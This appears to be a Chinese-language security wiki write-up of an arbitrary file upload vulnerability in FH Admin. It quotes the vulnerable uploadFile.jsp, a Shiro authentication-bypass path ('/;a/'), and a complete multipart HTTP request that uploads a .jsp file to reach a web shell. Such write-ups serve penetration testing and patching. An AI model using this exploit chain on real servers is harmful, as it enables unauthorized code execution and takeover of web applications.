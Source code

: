 FH Admin 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`plugins/uploadify/uploadFile.jsp`，即在项目下面存在文件夹plugins，其下面存在文件夹uploadify，而uploadify文件夹下面同时存在uploadFile.jsp文件；那么该项目非常有可能存在漏洞。

`uploadFile.jsp`文件内容如下：

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <%@ page import="java.io.*, java.util.*, org.apache.commons.fileupload.*, java.util.*" %>
    <%@ page import="org.apache.commons.fileupload.disk.*, org.apache.commons.fileupload.servlet.*" %>
    <%!
        
        public void upload(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {
            String savePath = this.getServletConfig().getServletContext().getRealPath("");
            savePath = savePath + request.getParameter("uploadPath");
            File f1 = new File(savePath);
            //这里接收了uploadPath的值  System.out.println(request.getParameter("uploadPath"));
            if (!f1.exists()) {
                f1.mkdirs();
            }
            DiskFileItemFactory fac = new DiskFileItemFactory();
            ServletFileUpload upload = new ServletFileUpload(fac);
            upload.setHeaderEncoding("utf-8");
            List fileList = null;
            try {
                fileList = upload.parseRequest(request);
            } catch (FileUploadException ex) {
                return;
            }
            
            
            String fileNmae = request.getParameter("fileNmae"); 
            Iterator<FileItem> it = fileList.iterator();
            String name = "";
            String extName = "";
            while (it.hasNext()) {
                FileItem item = it.next();
                if (!item.isFormField()) {
                    name = item.getName();
                    long size = item.getSize();
                    String type = item.getContentType();
                    //System.out.println(size + " " + type);
                    if (name == null || name.trim().equals("")) {
                        continue;
                    }
        
                    // 扩展名格式：
                    if (name.lastIndexOf(".") >= 0) {
                        extName = name.substring(name.lastIndexOf("."));
                    }
        
                    File file = null;
                    if(null != fileNmae && !"".equals(fileNmae)){
                        file = new File(savePath + fileNmae);
                    }else{
                        do {
                            if(null != fileNmae && !"".equals(fileNmae)){
                                file = new File(savePath + fileNmae);
                            }else{
                                name = new java.text.SimpleDateFormat("yyyyMMddhhmmss").format(new Date());   //获取当前日期
                                name = name + (int)(Math.random()*90000+10000);
                                file = new File(savePath + name + extName);
                            }
                        } while (file.exists());
                    }
        
                    File saveFile = new File(savePath + name + extName);
                    try {
                        item.write(saveFile);
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
            response.getWriter().print((name.trim() + extName.trim()).trim());
        }
    %>
    <%
        upload(request, response);
    %>

尝试访问此文件，提示未登录302跳转

![3.png](resource/FHAdmin任意文件上传漏洞/media/rId24.png)

由于该框架使用到了shiro，如若shiro版本过低会导致shiro身份绕过漏洞，结合文库shiro部分的身份认证绕过利用即可getshell

我们使用

    /;a/plugins/uploadify/uploadFile.jsp 代码不唯一！！！具体请参考文库shiro权限绕过部分文章！！！

来绕过shiro的权限控制，可以注意到状态码为200

![4.png](resource/FHAdmin任意文件上传漏洞/media/rId25.png)

结合之前给出的代码需要两个参数构造上传包

![5.png](resource/FHAdmin任意文件上传漏洞/media/rId26.png)

发现上传成功，但是居然找不到文件。

![6.png](resource/FHAdmin任意文件上传漏洞/media/rId27.png)

仔细看了一下才知道request.getParameter(\"uploadPath\");解析不了multipart里的参数，再次构造上传包

    POST /;a/plugins/uploadify/uploadFile.jsp?uploadPath=/plugins/uploadify/ HTTP/1.1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQDeBiVqfe6p3FMnJ


    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ
    Content-Disposition: form-data; name="imgFile"; filename="2204249.jsp"
    Content-Type: image/jpeg

    test
    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ--

成功shell

参考链接
--------

> https://xz.aliyun.com/t/8311
